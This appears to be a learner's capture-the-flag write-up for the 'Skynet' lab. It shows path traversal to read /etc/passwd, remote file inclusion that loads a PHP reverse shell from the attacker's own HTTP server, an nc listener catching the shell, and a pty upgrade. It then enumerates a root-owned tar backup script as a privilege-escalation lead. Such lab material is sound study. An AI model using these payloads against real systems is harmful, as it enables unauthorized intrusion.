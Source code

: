 #so I tried:
http://10.10.76.236/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd
#and it worked..

#next I thought maybe I could find a password to decode
#or I could go straight to the user flag maybe?

#nope --> next was to create a reverse shell
        #1 start listener (nc)
        #2 use php-reverse-shell
        #3 start http.server
(kali㉿kali)-[~/THM/practice/skynet/php-reverse-shell-1.0]
└─$ python3 -m http.server 80    
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
        #4 open url to reverse shell in URL
http://10.10.76.236/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.11.59.68:80/php-reverse-shell.php
#and we got the shell
(kali㉿kali)-[~/THM/practice/skynet]
└─$ nc -nvlp 4444                                   
listening on [any] 4444 ...
connect to [10.11.59.68] from (UNKNOWN) [10.10.76.236] 46836
Linux skynet 4.8.0-58-generic #63~16.04.1-Ubuntu SMP Mon Jun 26 18:08:51 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 13:45:18 up  1:49,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data

#the user flag is 7ce5c2109a40f958099283600a9ae807

#final step is to get the root flag
#the hint says something about a recursive call which I dont really know what is...
        #so I looked it up:

#its a procedure which calls another procedure that calls the first procedure

#1 get a better shell:
$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@skynet:/home/milesdyson$

#the backups seemed to be an interesting folder:
www-data@skynet:/home/milesdyson$ ls backups
ls backups
backup.sh  backup.tgz
        #one of them is a shell?

#I am thinking if the .tgz is unzipped this might call the sh which in turn will call the othr and escalate the shell privileges:
www-data@skynet:/home/milesdyson/backups$ ls -la
ls -la
total 4584
drwxr-xr-x 2 root       root          4096 Sep 17  2019 .
drwxr-xr-x 5 milesdyson milesdyson    4096 Sep 17  2019 ..
-rwxr-xr-x 1 root       root            74 Sep 17  2019 backup.sh
-rw-r--r-- 1 root       root       4679680 Feb 15 13:51 backup.tgz
#theyre both owned by root, but we can execute the backup.sh one
www-data@skynet:/home/milesdyson/backups$ cat backup.sh
cat backup.sh
#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
#the program compresses the whole directory 
